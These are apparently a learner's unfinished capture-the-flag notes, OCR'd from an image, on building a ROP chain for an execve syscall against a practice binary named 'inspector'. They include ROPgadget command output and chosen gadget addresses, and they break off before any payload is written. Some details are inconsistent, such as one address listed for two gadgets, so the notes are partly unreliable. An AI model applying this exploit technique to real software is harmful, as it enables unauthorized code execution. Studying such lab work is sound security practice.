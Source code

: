Address of Command: `40062a`
Address of data: `0x00400708`

#### Put `0x00` into both `rsi` and `rdx` (The next two args)
```
┌──(kali㉿kali)-[~/Desktop/6-Week]
└─$ ROPgadget --binary inspector | grep -i "pop rsi\|pop rdx"   
0x000000000040063c : mov ebp, esp ; pop rdx ; ret
0x0000000000400634 : mov ebp, esp ; pop rsi ; ret
0x000000000040063b : mov rbp, rsp ; pop rdx ; ret
0x0000000000400633 : mov rbp, rsp ; pop rsi ; ret
0x00000000004006e1 : pop rdx ; ret
0x00000000004006e1 : pop rsi ; pop r15 ; ret
0x0000000000400636 : pop rsi ; ret
0x000000000040063a : push rbp ; mov rbp, rsp ; pop rdx ; ret
0x0000000000400632 : push rbp ; mov rbp, rsp ; pop rsi ; ret
```

`0x0000000000400632 : push rbp ; mov rbp, rsp ; pop rsi ; ret`
`0x000000000040063a : push rbp ; mov rbp, rsp ; pop rdx ; ret`

So we'll have
`rsi`
	`CmdAddr`: `0x400632`
	`Data`: `0x00`
`rdx`
	`CmdAddr`: `40063a`
	`Data`: `0x00`

### Put `0x3b` in `rax` to tell `system` to call `execve`
```
┌──(kali㉿kali)-[~/Desktop/6-Week]
└─$ ROPgadget --binary inspector | grep -i "pop rax"         
0x0000000000400644 : mov ebp, esp ; pop rax ; ret
0x0000000000400643 : mov rbp, rsp ; pop rax ; ret
0x0000000000400646 : pop rax ; ret
0x0000000000400642 : push rbp ; mov rbp, rsp ; pop rax ; ret
```

`0x0000000000400642 : push rbp ; mov rbp, rsp ; pop rax ; ret`

So for this:
`CmdAddr`: `400642`
`Data` `0x3b`

### Last, call `syscall`
 `400621
	`0x0000000000400621 : push rbp ; mov rbp, rsp ; syscall`
Don't need to push anything else to the stack I don't think

So now that I have my gadgets and data, how do I build my payload
	(I only have 40 bytes btw)
	And I need to unfuck `rbp`
		Maybe use a `mov rbp, rsp` gadget?
